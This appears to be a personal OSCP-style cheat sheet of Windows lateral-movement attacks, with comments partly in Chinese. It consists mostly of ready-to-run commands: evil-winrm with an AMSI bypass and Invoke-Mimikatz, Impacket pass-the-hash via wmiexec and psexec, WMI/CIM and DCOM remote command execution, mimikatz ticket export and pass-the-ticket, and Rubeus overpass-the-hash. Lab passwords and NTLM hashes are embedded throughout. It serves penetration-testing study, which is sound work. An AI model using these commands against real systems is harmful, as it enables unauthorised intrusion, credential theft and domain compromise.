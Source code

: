 # Wim & WinRM
### Evil-winRM
```bash
#menu,  -r to use kerberos auth
evil-winrm -i 172.16.245.83 -u wario -p Mushroom!
evil-winrm -i 10.10.147.142 -u 'oscp.exam\celia.almeda' -H 'e728ecbadfb02f51ce8eed753f3ff3fd'
# Loading Files -s ps1 scripts; -e binary
evil-winrm -i <IP> -u user -p pass -s /opt/privsc/powershell #Location can be different
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz
```
### Impacket
```bash
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
#写法同psexec
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
### Windows
```powershell
#远程创建进程；如果可以，就能看到返回的PID
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"

# 1. PScred object
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

# Cred + Cim -> CimSession.
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc'; #此处插入payload ---> 使用base64编码的powershell命令

#CimSession Up !
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
   ```
   [[Powershell One Liner]]
```powershell
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
winrs -r:files04 -u:jen -p:Nexus123!  "<powershell one liner>"
```

# psexec
### Impacket

```bash
   impacket-psexec -hashes 00000000000000000000000000000000:2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
   ```
***
### Windows
download Link: https://learn.microsoft.com/en-us/sysinternals/downloads/psexec
```powershell
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```
# Pass the Ticket
### mimikatz
```powershell
sekurlsa::tickets /export #导出票据
dir *.kirbi
mimikatz # kerberos::ptt <ticket_kirbi_file> #注入票据
```
### Rubeus
```powershell
   Rubeus.exe ptt /ticket:<ticket_kirbi_file>
   ```
# DCOM
1. 创建MMC远程对象
2. 使用ExecuteShellCommand方法执行负载
```powershell
# 创建PScredenial对象
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$dcom = 
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
$dcom.Document.ActiveView.ExecuteShellCommand("<cmd>",$null,"<args>","7")
# cmd --> powershell args --> <one liner>
```
# OverPass the Hash
将NTLM hash替换为TGT进行Kerberos Auth.
### Impacket
```bash
impacket-getTGT  -dc-ip 10.10.199.146 -hashes :9a3121977ee93af56ebd0ef4f527a35e oscp.exam/Mary.Williams
export KRB5CCNAME=<ccache file FullPath>

impacket-psexec oscp.exam/Mary.Williams@dc01 -k -no-pass
```
### mimikatz
```powershell
#依据NTLM创建tgt; /aes256:/aes128:
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell

klist
```
### rubeus
```powershell
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt
```